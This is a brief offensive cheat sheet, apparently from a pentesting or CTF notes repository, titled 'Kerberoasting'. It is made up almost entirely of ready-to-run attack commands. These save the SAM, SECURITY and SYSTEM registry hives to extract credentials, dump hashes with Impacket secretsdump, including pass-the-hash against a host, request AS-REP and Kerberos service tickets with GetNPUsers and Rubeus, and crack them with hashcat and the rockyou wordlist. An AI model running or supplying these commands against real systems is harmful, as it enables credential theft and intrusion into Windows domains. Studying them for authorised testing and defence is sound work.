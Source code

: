 # Kerberoasting

### Impacket

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system.

```
C:> reg.exe save hklm\sam c:\windows\temp\sam.save
C:> reg.exe save hklm\security c:\windows\temp\security.save
C:> reg.exe save hklm\system c:\windows\temp\system.save

$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

impacket-secretsdump backup@spookysec.local # requires password for user
impacket-secretsdump Administrator@10.11.1.1 -hashes 'NTLM:NTLM'
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format hashcat # Requires "Does not require Pre-Authentication" be set
```

### Rubeus

```
.\Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force
```

#### Cracking passwords

```
hashcat -m 13100 --force <TGSs_file> /usr/share/wordlists/rockyou.txt
```
